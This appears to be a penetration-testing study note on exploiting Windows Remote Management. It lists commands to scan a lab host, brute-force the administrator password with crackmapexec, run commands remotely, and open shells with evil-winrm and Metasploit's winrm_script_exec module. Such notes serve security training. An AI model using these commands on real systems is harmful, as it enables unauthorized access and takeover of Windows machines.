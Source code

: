 ### Exploiting WinRM
- WinRM(Windwos Remote Management)
- Windows Remote management is a Windows remote management protocol that can be used to facilitate remote access with Windows systems over HTTP(S).
- Microsoft implementated WinRM in to Windows in order to make life easier for system administrators.
- WinRM is typically used in the following ways
- -Remotely access and interact with Windows hosts on a local network
- - Remotely access and execute commands on Windows systems
- - Manage and configure windows systems remotely
- WinRM typically uses TCP port 5985 and 5986 (HTTPS)
- WinRM implements access control and security for communication between systems through various forms of authentication
- We can utilize a utility called "crackmapexec" to perform a brute-force on WinRM in order to identify users and their passwords as well as execute commands on the target systems
- We can also utilize a ruby script called "evil-winrm" to obtain a command shell session on the target system.
#### Exploit
- nmap -sV -p- 10.2.18.45 [ scan all the ports to find services for WinRM,WinRM don't explicitly show banners to identify it's services,we can confirm it by it's default port]

#### Crackmapexec
- crackmapexec [ this will show documentatin  for crackmapexec]
- crackmapexec winrm 10.2.18.45 -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt [ it will use for winrm brute force,crackmapexec also can be useful winrm,ldap,ssh,mssql,smb,rdp protocols]

- crackmapexec winrm 10.2.18.45 -u administrator -p tinkerbell -x "whoami" [ in x paramter value we can execute different commands ]

#### evil-winrm
- evil-winrm.rb -u administrator -p 'tinkerbell' -i 10.2.18.45 [this will give us shell]
#### Metasploit
- service postgresql start
- msfconsole
- search winrm_script
- use exploit/windows/winrm/winrm_script_exec
- set everything requires
- this will give us meterpreter shell
